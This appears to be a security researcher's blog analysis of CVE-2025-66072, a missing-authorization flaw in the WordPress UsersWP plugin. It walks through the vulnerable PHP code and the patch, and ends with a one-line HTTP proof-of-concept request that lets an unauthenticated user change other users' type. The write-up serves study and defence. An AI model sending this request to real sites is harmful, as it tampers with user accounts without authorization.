

# CVE-2025-66072 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Missing Authorization** vulnerability in **Stiofan UsersWP** allows exploitation of **Incorrectly Configured Access Control Security Levels**. This issue affects **UsersWP**: from **n/a** to **<= 1.2.47**.

* **CVE ID**: [CVE-2025-66072](https://www.cve.org/CVERecord?id=CVE-2025-66072)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 1.2.47
* **Patched Versions**: 1.2.48
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress UsersWP Plugin](https://wordpress.org/plugins/userswp/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **UsersWP**:

  * `1.2.47` – **vulnerable**
  * `1.2.48` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers an action hook:

```php {title="class-admin.php" hl_lines=[] data-open=true}
add_action( 'admin_init', array( $this, 'handle_bulk_user_type_change' ) );
```

`admin_init` runs whenever any logged-in user accesses the admin dashboard (`/wp-admin/`), but it is also triggered in endpoints like **`admin-ajax.php`** and **`admin-post.php`**. Because these endpoints are accessible by **unauthenticated users**, in some conditions, an unauthenticated user can trigger `admin_init` even without visiting the admin dashboard.

This means that any user sending a request to `admin-ajax.php` or `admin-post.php` will trigger the `admin_init` hook, which in turn calls the `handle_bulk_user_type_change` callback.

```php {title="class-admin.php v1.2.47" hl_lines=[16] data-open=true}
public function handle_bulk_user_type_change() {
    if ( ! isset( $_GET['uwp_change_user_type'], $_GET['uwp_new_user_type'] ) ) {
        return;
    }

    $new_user_type = absint( $_GET['uwp_new_user_type'] );

    if ( ! $new_user_type ) {
        return;
    }

    $users = isset( $_REQUEST['users'] ) && ! empty( $_REQUEST['users'] ) ? (array) $_REQUEST['users'] : array();

    if ( ! empty( $users ) ) {
        array_map( function( $user_id ) use ( $new_user_type ) {
            update_user_meta( absint( $user_id ), '_uwp_register_form_id', (int) $new_user_type );
        }, $users );
    } 

    wp_safe_redirect( add_query_arg( 'user_type_updated', 'true', admin_url( 'users.php' ) ) );
    exit;
}
```

The function checks whether the request contains `uwp_change_user_type` and `uwp_new_user_type`; if not, it exits.

If present, it retrieves `uwp_new_user_type` from `$_GET` and converts it to a positive integer. If the value is invalid, the function exits.

Next, it retrieves the users list from `$_REQUEST['users']`. If the array is not empty, it executes `update_user_meta()` for each user, updating `_uwp_register_form_id` with `$new_user_type`.

Finally, it redirects to `users.php` with `user_type_updated=true` and ends execution.



> [!BUG]
> **The vulnerability occurs due to the lack of any capability/permission checks.** This allows any user—including non-admin users—to call the endpoint and change the User Type of any user, even though this action should be restricted to admins.

**Patch (v1.2.48):** adds to the `handle_bulk_user_type_change` function:

* Nonce verification: The function requires `_wpnonce` to exist and be valid for the `'bulk-users'` action.

```php {title="class-admin.php v1.2.48" hl_lines=[] data-open=true}
if ( ! isset( $_GET['_wpnonce'] ) || ! wp_verify_nonce( $_GET['_wpnonce'], 'bulk-users' ) ) {
    wp_die( __( 'Security check failed. Please try again.' ) );
}
```

* Capability check: Only users with the `edit_users` capability are allowed to perform this action.

```php {title="class-admin.php v1.2.48" hl_lines=[] data-open=true}
if ( ! current_user_can( 'edit_users' ) ) {
    wp_die( __( 'You do not have permission to perform this action.' ) );
}
```


## Flow


graph TD
A["Any user (including Unauthenticated)"] --> B["Send request to admin-ajax.php or admin-post.php with uwp_change_user_type + uwp_new_user_type"]
B --> C["Hook admin_init is triggered"]
C --> D["Callback handle_bulk_user_type_change() executes"]
D --> E{"Are required GET parameters present?"}
E -- No --> F["Function exits"]
E -- Yes --> G["Retrieve uwp_new_user_type from $_GET"]
G --> H{"Is uwp_new_user_type a valid integer?"}
H -- No --> F
H -- Yes --> I["Retrieve users list from $_REQUEST['users']"]
I --> J{"Is users list not empty?"}
J -- No --> F
J -- Yes --> K["update_user_meta() for each user in the list"]
K --> L["Redirect to users.php?user_type_updated=true"]
L --> M["User Type changed without any capability check"]


## Proof of Concept (PoC)

Send a request as an unauthenticated user:

```http
GET /wp-admin/admin-post.php?uwp_change_user_type=2&uwp_new_user_type=user_type_id&users[]=uid_1&users[]=uid_2 HTTP/1.1
Host: localhost
```

## Conclusion

CVE-2025-66072 arises from the **lack of authorization checks** in the `handle_bulk_user_type_change()` function of UsersWP <= 1.2.47. This allows **any user, including unauthenticated users**, to change the User Type of other users by sending crafted requests to `admin-ajax.php` or `admin-post.php`. The patch in version 1.2.48 mitigates the issue by enforcing **nonce verification** and **capability checks**, restricting the action to authorized users only.

## Key Takeaways

* Always perform **capability checks** (`current_user_can`) when handling sensitive actions in WordPress.
* Use **nonces** to prevent unauthorized or forged requests.
* Do not rely solely on hooks like `admin_init`; ensure all public endpoints validate both **permissions** and **request authenticity**.
* Low-privileged or unauthenticated users can exploit endpoints if proper access control is missing.

## References

[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress UsersWP Plugin <= 1.2.47 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/userswp/vulnerability/wordpress-userswp-plugin-1-2-47-broken-access-control-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-12-cve-2025-66072/  

